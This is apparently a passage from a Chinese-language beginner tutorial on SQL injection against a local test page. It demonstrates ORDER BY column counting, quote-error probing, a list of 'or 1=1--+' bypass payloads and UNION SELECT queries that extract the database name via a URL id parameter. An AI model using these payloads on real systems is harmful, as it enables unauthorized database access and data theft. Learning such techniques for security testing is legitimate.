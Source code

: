 ```mysql
SELECT * FROM test ORDER BY password aec;# 也可以用ase和desc 进行升序和降序的排列
```

```mysql
SELECT * FROM test ORDER BY 1 ;-- ORDER BY 1是对第一列进行查询可以用数字1，2，3对列表进行查询，当数字超过该列表因不存在该列会报错，可以以此知道有多少列
```

```mysql
SELECT * FROM test WHERE USER = '' order by 3  -- 'and password = '' 
```

```mysql
SELECT * FROM test WHERE USER = '' union SELECT DATABASE (),1 -- 'and password=''  #因为查出两个字段，而后面只有一个字段，所以在后面随便弄个数占位，然后就能查出库名了
```

##### get 请求

通过网址，对id进行判断对于id是否存在，错误就会报错，这是用get请求对其发起查询

![image-20220427132540892](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182155248-492873919.png)

在url里面会对其进行编码，所以可以用插件hackerbar来防止对其编码

对于网页想要对其注入首先要判断其能不能对其进行注入

最简单的判断在其后面加入一个单引号，execute

![image-20220427133015930](photo/image-20220427133015930.png)

因为在其语法里如果只有一个单引号会报错，因为单引号一般会成对出现，如果多了就会报错

还有这些常见的

```mysql

or 1=1--+
'or 1=1--+
''or 1=1--+
)or 1=1--+
')or 1=1--+
'')or 1=1--+
''))or 1=1--+

```

接着对网址使用order by 语句观察它前面藏了多少个语句 

```
http://localhost/school/url.php?id=1' order by 4 --+
```

发现它在第四个报错了之后，然后知道了前面有3个语句,然后在后面加两个占位

```
http://localhost/school/url.php?id=1' union select database(),1,1--+
```

可以把它直接变成-1使它查不到这个内容,以免混淆
